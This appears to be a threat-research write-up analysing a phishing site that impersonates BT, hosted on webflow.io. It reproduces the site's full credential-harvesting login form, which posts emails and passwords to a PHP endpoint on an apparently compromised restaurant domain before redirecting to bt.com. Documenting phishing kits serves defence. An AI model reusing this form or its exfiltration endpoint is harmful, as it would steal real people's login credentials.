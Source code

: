 # Phishing - bt-billingpayment.webflow.io

## Introduction
Phishing site, disguising itself as a UK broadband company. The subdomain sounds believable enough, though the domain `webflow.io` gives it away.

<br/><br/><br/>

## Index page
A very poorly made login page, nothing is functional except 2 fields, `Username/Email` and `Password`, along with the `Login` button.

Headers, nav bars, and other functionalities present in the actual website are presented in screenshots. Below is the `<img>` tags pulled from the source code.

***header screenshot***
```html
<img src="https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e114288b5dc2e7df79_btheader.jpg" loading="lazy" sizes="(max-width: 1920px) 100vw, 1920px" srcset="https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e114288b5dc2e7df79_btheader-p-500.jpeg 500w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e114288b5dc2e7df79_btheader-p-800.jpeg 800w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e114288b5dc2e7df79_btheader-p-1080.jpeg 1080w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e114288b5dc2e7df79_btheader-p-1600.jpeg 1600w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e114288b5dc2e7df79_btheader.jpg 1920w" alt="" />
```

***sidebar screenshot***
```html
<img src="https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e50bfc7d81af5f8560_btside.jpg" loading="lazy" sizes="(max-width: 479px) 96vw, (max-width: 767px) 97vw, 48vw" srcset="https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e50bfc7d81af5f8560_btside-p-500.jpeg 500w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31e50bfc7d81af5f8560_btside.jpg 693w" alt="" />
```

***bottom bar screenshot***
```html
<img src="https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31ded19e954958252a30_bt-bottom.jpg" loading="lazy" sizes="(max-width: 1888px) 100vw, 1888px" srcset="https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31ded19e954958252a30_bt-bottom-p-500.jpeg 500w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31ded19e954958252a30_bt-bottom-p-800.jpeg 800w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31ded19e954958252a30_bt-bottom-p-1080.jpeg 1080w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31ded19e954958252a30_bt-bottom-p-1600.jpeg 1600w, https://uploads-ssl.webflow.com/62ab31bfff6ad53767cbf8c1/62ab31ded19e954958252a30_bt-bottom.jpg 1888w" alt="" />
```

## Form

Below is the code for the phishing form. Note that it redirects to another domain. Visiting the domain reveals a seemingly legitamate Italian restaurant page. However, it should be noted that the page contains a video that cannot be loaded, and that the menu lists the dishes as costing `$0`.

```html
<div class="w-form">
    <form id="wf-form-Email" name="wf-form-Email" data-name="Email" redirect="https://bt.com" data-redirect="https://bt.com" action="https://ristorantedaluisa.it/wp-includes/opp/post.php" method="post">
        <h3>Log In</h3><label for="Email">Username/Email</label><input type="email" class="w-input" maxlength="256" name="Email" data-name="Email" placeholder="" id="Email" required="" /><label for="Password">Password</label><input type="password" class="w-input" maxlength="256" name="Password" data-name="Password" placeholder="" id="Password" required="" /><input type="submit" value="Login" data-wait="Please wait..." class="w-button" />
    </form>
    <div class="w-form-done">
        <div>Thank you! Your submission has been received!</div>
    </div>
    <div class="w-form-fail">
        <div>Oops! Something went wrong while submitting the form.</div>
    </div>
</div>
```

## Notes
In the source code (as well as from the domain), it can be deduced that the website was made using `webflow.com`

```html
<!-- This site was created in Webflow. http://www.webflow.com -->
<!-- Last Published: Thu Jun 16 2022 13:40:57 GMT+0000 (Coordinated Universal Time) -->
```